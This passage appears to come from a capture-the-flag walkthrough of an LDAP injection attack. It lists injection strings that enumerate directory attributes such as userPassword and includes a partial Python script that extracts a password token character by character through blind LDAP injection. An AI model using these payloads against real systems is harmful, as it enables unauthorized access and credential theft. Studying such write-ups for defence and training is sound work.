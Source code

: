       attribute_list.close() 
      ```
      - Run using `python3`:
        ```
        ldapuser))(&(cn=*
        ldapuser))(&(commonName=*
        ldapuser))(&(gidNumber=*
        ldapuser))(&(homeDirectory=*
        ldapuser))(&(loginShell=*
        ldapuser))(&(mail=*
        ldapuser))(&(name=*
        ldapuser))(&(objectClass=*
        ldapuser))(&(pager=*
        ldapuser))(&(shadowLastChange=*
        ldapuser))(&(shadowMax=*
        ldapuser))(&(shadowMin=*
        ldapuser))(&(shadowWarning=*
        ldapuser))(&(sn=*
        ldapuser))(&(surname=*
        ldapuser))(&(uid=*
        ldapuser))(&(uidNumber=*
        ldapuser))(&(userPassword=*
        ```
      __NOTE(S)__:
      - `ldap_attribute_list.txt` was copied from [ldap-brute from GitHub](https://github.com/droope/ldap-brute/blob/master/wordlists/attribute_names)
      - `userPassword`, `pager`, and `objectClass` might be of interest

   4. Find the attribute with the __token string__:
      - `userPassword`:
        ```py
        import requests as r
        import urllib.parse as u

        token = ""
        while True:

          if len(token) % 3 == 0 :
              attribute_value = bytes.fromhex(str(token.replace("\\", ""))).decode('utf-8')
              print(attribute_value)
              token += "\\"
              
              if len(attribute_value[19:])==86: break
        
          for x in range(15,-1,-1):

              if len(attribute_value[19:])==85 and len(token) % 3 == 2 :
                  if x==0: token = token + "0"

              payload = "ldapuser))(&(uid=ldapuser)(userPassword:2.5.13.18:="
              ldap_injection = payload + "%s%cf" % (token, hex(x)[-1])

              if ldap_injection[-3:] == "0ff":
                  hex_val = "0x" + ldap_injection[-6:-4]
                  token = token[:-4] + hex(int(hex_val, 16) + 1)[-2:] + "\\"
                  ldap_injection = payload + "%s%cf" % (token, hex(x)[-1])
          
